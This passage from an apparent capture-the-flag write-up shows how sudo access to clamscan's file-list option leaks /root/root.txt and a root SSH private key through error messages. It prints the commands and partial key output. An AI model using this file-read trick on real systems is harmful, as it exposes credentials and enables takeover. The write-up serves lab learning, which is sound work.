 With `--file-list` or `-f`, it will get a list of files to scan from a file. Whenever you have something that can read a filename from a file and interact with it, it’s worth trying it on `root.txt`.

```

sbrown@snoopy:~$ sudo clamscan -f /root/root.txt
LibClamAV Warning: **************************************************
LibClamAV Warning: ***  The virus database is older than 7 days!  ***
LibClamAV Warning: ***   Please update it as soon as possible.    ***
LibClamAV Warning: **************************************************
Loading:    25s, ETA:   0s [========================>]    8.66M/8.66M sigs
Compiling:   7s, ETA:   0s [========================>]       41/41 tasks 

d78ba555860aee798a837bbfb58fc0cd: No such file or directory
WARNING: d78ba555860aee798a837bbfb58fc0cd: Can't access file
----------- SCAN SUMMARY -----------
Known viruses: 8659055
Engine version: 1.0.0
Scanned directories: 0
Scanned files: 0
Infected files: 0
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 33.961 sec (0 m 33 s)
Start Date: 2023:05:10 16:43:58
End Date:   2023:05:10 16:44:32

```

Here, it reads the hash out of `root.txt`, and then tried to read the file with named by that hash. But that hash isn’t a file, so it fails, and in the error message, prints the flag!

The same trick works to read `/root/.ssh/id_rsa`:

```

sbrown@snoopy:~$ sudo clamscan -f /root/.ssh/id_rsa
...[snip]...
-----BEGIN OPENSSH PRIVATE KEY-----: No such file or directory
WARNING: -----BEGIN OPENSSH PRIVATE KEY-----: Can't access file
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn: No such file or directory
WARNING: b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn: Can't access file
NhAAAAAwEAAQAAAYEA1560zU3j7mFQUs5XDGIarth/iMUF6W2ogsW0KPFN8MffExz2G9D/: No such file or directory
WARNING: NhAAAAAwEAAQAAAYEA1560zU3j7mFQUs5XDGIarth/iMUF6W2ogsW0KPFN8MffExz2G9D/: Can't access file
...[snip]...

```

Some `bash` foo will print that nicely by getting just the first of the two error lines and isolating just the content:

```

sbrown@snoopy:~$ sudo clamscan -f /root/.ssh/id_rsa 2>&1 | grep "No such file" | cut -d':' -f1
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA1560zU3j7mFQUs5XDGIarth/iMUF6W2ogsW0KPFN8MffExz2G9D/
...[snip]...
atU0AwHtCazK8AAAAPcm9vdEBzbm9vcHkuaHRiAQIDBA==
-----END OPENSSH PRIVATE KEY-----

```